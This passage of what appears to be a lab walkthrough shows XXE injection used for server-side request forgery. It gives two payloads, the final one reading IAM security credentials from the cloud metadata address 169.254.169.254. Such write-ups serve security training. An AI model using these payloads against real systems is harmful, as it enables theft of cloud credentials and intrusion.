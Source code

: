 We do this until we get admin page

New payload

```
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "[http://internal.vulnerable-website.com/latest/meta-data](http://internal.vulnerable-website.com/latest/meta-data)"> ]>
```

Finally we found admin endpoint

<img src="images/image8.png" alt="third" width="500">

Final payload

```
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "[http://169.254.169.254/latest/meta-data/iam/security-credentials/admin](http://169.254.169.254/latest/meta-data/iam/security-credentials/admin)"> ]>
```

We have response

<img src="images/image9.png" alt="third" width="500">
